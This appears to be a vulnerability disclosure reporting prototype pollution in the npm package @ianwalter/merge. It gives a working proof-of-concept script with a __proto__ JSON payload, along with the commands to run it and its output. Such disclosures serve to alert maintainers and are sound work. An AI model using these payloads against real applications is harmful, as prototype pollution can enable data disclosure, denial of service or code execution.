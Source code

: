# Description

`@ianwalter/merge` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var merge = require("@ianwalter/merge")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
merge(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i @ianwalter/merge # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
